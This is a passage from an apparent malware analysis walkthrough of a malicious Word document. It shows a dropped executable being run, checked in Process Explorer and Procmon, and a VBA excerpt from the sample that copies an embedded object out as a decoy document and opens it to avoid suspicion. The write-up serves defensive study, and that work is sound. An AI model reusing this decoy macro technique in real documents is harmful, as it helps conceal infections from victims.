 ![alt text](/img/003-zip-exe.png "New zip just arrived")

Finally, the binary "vteijam hdgtra.exe" is executed:

![alt text](/img/003-execution.png "Executing exe")

We can verify the creation of the new process in _Process Explorer_ and in _Procmon_:

![alt text](/img/003-procExp.png "ProcExp exe")

![alt text](/img/003-procmonexe.png "Procmon exe")

Although the payload embedded in the Word document has already been started, the attacker still has one more task to do in order not to cause any suspicion:

```vba
    'The file mfolder\word\embeddings\oleObject3.bin is copied as C:\users\USER\Documents\nameOfMaliciousDocument.docx
    Dim dokc_paeth As String
    
    dokc_paeth = Environ$("USERPROFILE") & "\Documents\" & Application.ActiveDocument.Name & ".docx"
    
    If Dir(dokc_paeth) = "" Then
        Name mfolder & "word\embeddings\oleObject3.bin" As dokc_paeth
    End If
    
    'The newly copied file is opened
    
    Documents.Open FileName
     = dokc_paeth, ConfirmConversions
     = False, _
    ReadOnly
     = False, AddToRecentFiles
     = False, PasswordDocument
     = "", _
    PasswordTemplate
     = "", Revert
     = False, WritePasswordDocument
     = "", _
    WritePasswordTemplate
     = "", Format
     = wdOpenFormatAuto, XMLTransform
     = ""
```

![alt text](/img/003-newword.png "Creating decoy file")

![alt text](/img/003-decoy.png "Decoy file")

By creating and opening the new file, the victim is shown the expected Word document.

Finally, we validate in _Procmon_ that the second stage started performing actions:
